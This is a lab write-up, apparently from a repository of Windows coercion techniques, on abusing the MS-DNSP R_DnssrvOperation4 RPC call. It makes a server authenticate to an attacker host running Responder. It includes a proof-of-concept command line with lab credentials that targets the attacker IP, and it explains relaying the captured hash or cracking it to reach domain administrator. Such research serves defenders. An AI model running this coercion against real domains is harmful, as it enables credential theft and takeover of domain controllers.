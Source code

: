 # MS-DNSP - Remote call to R_DnssrvOperation4 (opnum 15)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvOperation4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/e5a835ad-8ade-4be3-b97b-a80634800f8d)

+ **Function operation number**: `15`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvOperation4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/e5a835ad-8ade-4be3-b97b-a80634800f8d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvOperation4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvOperation4(
      [in]                       handle_t            hBindingHandle,
      [in]                       DWORD               dwClientVersion,
      [in]                       DWORD               dwSettingFlags,
      [in, unique, string]       LPCWSTR             pwszServerName,
      [in, unique, string]       LPCWSTR             pwszVirtualizationInstanceID,
      [in, unique, string]       LPCSTR              pszZone,
      [in, unique, string]       LPCWSTR             pwszZoneScopeName,
      [in]                       DWORD               dwContext,
      [in, unique, string]       LPCSTR              pszOperation,
      [in]                       DWORD               dwTypeId,
      [in, switch_is(dwTypeId)]  DNSSRV_RPC_UNION    pData
    );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvOperation4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/e5a835ad-8ade-4be3-b97b-a80634800f8d